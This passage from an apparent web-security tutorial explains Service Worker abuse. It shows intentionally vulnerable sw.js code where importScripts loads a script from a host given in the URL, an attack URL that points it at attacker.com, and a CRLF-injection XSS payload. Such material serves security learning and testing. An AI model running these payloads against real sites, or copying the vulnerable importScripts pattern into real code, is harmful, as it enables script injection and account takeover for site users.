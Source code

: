 The serviceWorker.register method is passed the URL of the script containing the SW source code, an important condition is that the **scriptURL** parameter must be Same-Origin, for this reason the SW cannot be installed from a vulnerable subdomain or host of the attacker. In the second parameter **options** we specified **scope** the entire root directory, this is what our SW will control.

Result using Burp Collaborator:
{% include figure.html path="assets/img/posts/sw/sw4.png" title="sw_tutorial" class="img-fluid rounded z-depth-1" %}

<br>


### Abusing importScripts
When registering a SW, additional parameters may be used, which may later end up in sensitive JS functions (gadgets). When discovering a web application, at least pay attention to how the SW request is made.

URL example with an additional parameter:
```
https://example.com/sw.js?userid=bob
```

The *importScripts* function called from SW can import a script from another domain. If this function is called using a parameter that an attacker can change, he will be able to import a cross origin JS script and get XSS. This even bypasses CSP protection.

Example of vulnerable source code:\
`sw.html`
```js
window.addEventListener('load', function() {
	navigator.serviceWorker.register(''/sw.js''+location.search)  
});
```
`sw.js`
```js 
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
```

Achivieng XSS using next payload:
```
https://vulnerable.com/sw.html?host=attacker.com
```

As written in [one](https://dl.acm.org/doi/fullHtml/10.1145/3427228.3427290) paper, this piece of code was used by a web application dedicated to sports, with a traffic of about 50 million people.

<br>

### Register SW using CRLF-injection
CRLF-Injceiton which allows you to rewrite the HTTP response and do XSS, then its impact can be increased using SW.

Trigger XSS:
```
https://example.tld/some/path/foo/bar/?param=x%0D%0AContent-Type:text/
html%0D%0AContent-Length:20%0D%0A%0D%0A<script>XSS</script>
```
